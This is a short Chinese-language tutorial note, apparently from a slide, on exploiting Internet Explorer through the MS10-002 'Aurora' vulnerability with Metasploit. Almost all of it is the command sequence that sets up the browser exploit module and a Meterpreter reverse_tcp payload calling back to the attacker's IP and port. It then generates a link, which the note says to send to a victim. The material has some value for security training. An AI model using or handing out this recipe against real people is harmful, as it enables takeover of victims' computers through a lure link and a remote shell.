

基于ie浏览器的漏洞利用  MS10_002

需要生成一个链接让人去访问才能生效
search ms10-002
0  exploit/windows/browser/ms10_002_aurora
use 0
set srvhost 192.168.149.142  设置本地ip ->目的是为了让别人访问192.168.149.142
set srvport 8080	设置本地端口
set payload windows/meterpreter/reverse_tcp  设置漏洞执行成功以后建立回连的代码
set lhost 192.168.149.142  设置回连的ip  监听后就能如果受害者请求就能够建立连接
set lport 1123  设置回连的端口号
run  生成链接 发送给别人
http://192.168.149.142:8080/IVnNv9pb